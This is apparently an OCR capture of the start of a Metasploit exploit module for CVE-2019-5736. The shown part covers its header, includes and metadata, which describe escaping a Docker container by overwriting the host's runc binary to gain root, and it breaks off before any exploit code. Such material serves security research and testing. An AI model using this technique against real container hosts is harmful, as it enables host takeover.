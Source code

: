     ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Local

      Rank = ManualRanking

      include Msf::Post::Linux::Priv
      include Msf::Post::File
      include Msf::Exploit::EXE
      include Msf::Exploit::FileDropper

      # This matches PAYLOAD_MAX_SIZE in CVE-2019-5736.c
      PAYLOAD_MAX_SIZE = 1048576

      def initialize(info = {})
        super(
          update_info(
            info,
            'Name' => 'Docker Container Escape Via runC Overwrite',
            'Description' => %q{
              This module leverages a flaw in `runc` to escape a Docker container
              and get command execution on the host as root. This vulnerability is
              identified as CVE-2019-5736. It overwrites the `runc` binary with the
              payload and wait for someone to use `docker exec` to get into the
              container. This will trigger the payload execution.

              Note that executing this exploit carries important risks regarding
              the Docker installation integrity on the target and inside the
              container ('Side Effects' section in the documentation).
            },
            'Author' => [
              'Adam Iwaniuk', # Discovery and original PoC
              'Borys Popławski', # Discovery and original PoC
              'Nick Frichette', # Other PoC
              'Christophe De La Fuente', # MSF Module
              'Spencer McIntyre' # MSF Module co-author ('Prepend' assembly code)
            ],
            'References' => [
              ['CVE', '2019-5736'],
              ['URL', 'https://blog.dragonsector.pl/2019/02/cve-2019-5736-escape-from-docker-and.html'],
              ['URL', 'https://www.openwall.com/lists/oss-security/2019/02/13/3'],
              ['URL', 'https://www.docker.com/blog/docker-security-update-cve-2018-5736-and-container-security-best-practices/']
            ],
            'DisclosureDate' => '2019-01-01',
            'License' => MSF_LICENSE,
            'Platform' => %w[linux unix],
            'Arch' => [ ARCH_CMD, ARCH_X86, ARCH_X64 ],
            'Privileged' => true,
            'Targets' => [
              [
                'Unix (In-Memory)',
                {
                  'Platform' => 'unix',
                  'Type' => :unix_memory,
                  'Arch' => ARCH_CMD,